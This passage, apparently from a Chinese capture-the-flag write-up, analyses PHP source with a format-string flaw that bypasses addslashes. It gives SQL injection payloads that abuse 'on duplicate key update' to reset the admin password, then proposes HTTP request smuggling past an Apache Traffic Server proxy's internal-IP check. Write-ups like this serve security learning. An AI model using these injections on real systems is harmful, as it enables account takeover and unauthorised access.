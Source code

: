 ```php
            $sql = self::prepareInsert($baseSql, $args);
            $this->db->query($sql);
            if (!$this->db->conn->error) {
                $objectID = $this->db->query("SELECT LAST_INSERT_ID()")->fetch_row()[0];
                return self::findOne(array("id" => $objectID));
            } else {
                return null;
            }
        }

    }
```

register调用的save方法存在格式化字符串漏洞可以绕过addslashes

构造`user=admin%1$',0x60)#&pass=123`

![image.png](https://ws1.sinaimg.cn/large/006pWR9agy1g9l4a1jb20j30l204cgls.jpg)

insert 的一个方法可以修改重复的值  `insert on duplicate key update` ，它能够让我们在新插入的一个数据和原有数据发生重复时，修改原有数据。那么我们通过这个技巧修改管理员的密码即可。 

测试test用户,原密码:123

构造`user=test%1$',0x60)on duplicate key update password=0x38643936396565663665636164336332396133613632393238306536383663663063336635643561383661666633636131323032306339323361646336633932#&pass=123`

成功将密码修改为123456，冲admin密码

接着进入webconsole当中,提示只有内网才能使用

相关代码

```php
if ($this->request->user->username === "admin" && !filter_var(
                $_SERVER['HTTP_CLIENT_IP'],
                FILTER_VALIDATE_IP,
                FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE
            ))
```

emmm直接修改cilent-ip发现不行

> 因为这里的`Client-IP`头是反代层面设置的（set $Client-IP $remote_addr）, 所以无法通过前端修改请求头来伪造。 
>
> 这时可以从服务器返回的`Server`头中发现，反代是`ATS7.1.2` 那么应该很敏感的想到通过`HTTP走私` 来绕过反代，规避反代设置`Client-IP`。 



那么什么是ast?

> Apache Traffic Server™ is a high-performance web proxy cache that improves network efficiency and performance by caching frequently-accessed information at the edge of the network. This brings content physically closer to end users, while enabling faster delivery and reduced bandwidth use. Traffic Server is designed to improve content delivery for enterprises, Internet service providers (ISPs), backbone providers, and large intranets by maximizing existing and available bandwidth. 

emmmm,ast是一个在用户和服务器之间的起缓冲加速的代理服务器,这也正是http走私常出现的应用场景
